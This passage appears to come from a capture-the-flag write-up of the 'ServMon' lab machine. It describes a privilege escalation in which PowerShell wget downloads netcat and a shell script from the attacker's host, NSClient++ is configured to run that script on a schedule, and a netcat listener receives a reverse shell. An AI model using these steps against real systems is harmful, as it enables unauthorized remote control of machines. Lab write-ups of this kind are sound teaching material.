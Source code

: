2.  Upload `nc64.exe` and `shell.bat` to `C:\programdata\`. I started a
    Python HTTP server on my host, and used PowerShell's `wget` command:

    <div>

    <div>

        nadine@SERVMON C:\ProgramData>powershell wget http://10.10.14.24/nc64.exe -outfile nc.exe
        nadine@SERVMON C:\ProgramData>powershell wget http://10.10.14.24/shell.bat -outfile shell.bat

    </div>

    </div>

3.  In the NSClient++ GUI, first I'll associate my script with a command
    by clicking Settings \> external scripts \> scripts, and then "+Add
    new".

![](/img/image-20200413124942222.png)

When I hit "Add", `df` now shows up under scripts above, and the Changes
tab turns red. I can go to Changes and save this to the disk config.
This will add the following to the config file:



       ; in flight - TODO
       [/settings/external scripts/scripts/df]
       
       ; COMMAND - Command to execute
       command = C:\\programdata\\shell.bat



1.  Now under scheduler \> schedules I'll hit the "+Add new" button. I
    need to add two things here. First, I'll edit the section to add a
    new name, and then give it an interval of 10 seconds:

![](/img/image-20200413125324355.png)

After hitting Add, I'll change edit the form, and then Add again:

![](/img/image-20200413125404288.png)

Now `df` shows up as a scheduled task, and I can see it has both
key/values:

![](/img/image-20200620065935852.png)

1.  Go to Control --\> Reload. Then Wait. It can take longer than it
    feels like it should. This box can be very frustrating.

Eventually, a shell comes back:



    root@kali# rlwrap nc -lnvp 443
    Ncat: Version 7.80 ( https://nmap.org/ncat )
    Ncat: Listening on :::443
    Ncat: Listening on 0.0.0.0:443
    Ncat: Connection from 10.10.10.184.
    Ncat: Connection from 10.10.10.184:50376.
    Microsoft Windows [Version 10.0.18363.752]
    (c) 2019 Microsoft Corporation. All rights reserved.
